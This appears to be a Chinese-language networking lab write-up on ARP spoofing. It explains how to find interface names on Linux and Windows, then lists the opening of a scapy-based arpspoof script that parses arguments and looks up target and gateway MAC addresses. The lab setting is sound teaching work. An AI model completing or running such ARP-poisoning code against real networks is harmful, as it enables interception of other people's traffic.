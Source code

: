 Linux系统下通过`ifconfig`命令输出的段落标题就是本地各个网卡的名称，通常比较简短。Windows系统下的`ipconfig`命令并不能显示出可用的网卡名称。Windows系统如何获取网卡名称的方法是：控制面板->网络和 Internet->网络连接;
![win](https://github.com/DBullet/UCore/blob/master/lab5/boot/win.png)
图中圈出来的长字符串就是Windows系统无线网卡的名称，其他网卡的名称获取方法类似。


通过直接使用arpspoof可以完成本阶段的实验，但这里通过python的scapy包来简单地模拟实现arpspoof。arpspoof源代码可以参考这篇[arpsoof源码分析](https://blog.csdn.net/rectsuly/article/details/63261412?locationNum=5&fps=1)

scapy相关资料：
文档地址：[http://www.secdev.org/projects/scapy/doc/](http://www.secdev.org/projects/scapy/doc/)
中文版教程：[https://github.com/Larryxi/Scapy_zh-cn](https://github.com/Larryxi/Scapy_zh-cn)

scapy实现的arpspoof源代码如下：./codes/arp.py
```python
from optparse import OptionParser
from scapy.all import get_if_hwaddr, getmacbyip, ARP, Ether, sendp
import sys
import time
def parse_arguments():
    usage = 'Usage: %prog [-i interface] [-t target] host'
    parser = OptionParser(usage)
    parser.add_option('-i', dest='interface', help='Specify the interface to use')
    parser.add_option('-t', dest='target', help='Specify a particular host to ARP poison')
    (options, args) = parser.parse_args()
    if options.interface and options.target and len(args):
        arp_poison(options.interface, options.target, args[0])
    else:
        parser.print_help()
        sys.exit(0)

def arp_poison(interface, target, gateway):
    local_mac = get_if_hwaddr(interface)
    target_mac = getmacbyip(target)
    gateway_mac = getmacbyip(gateway)
```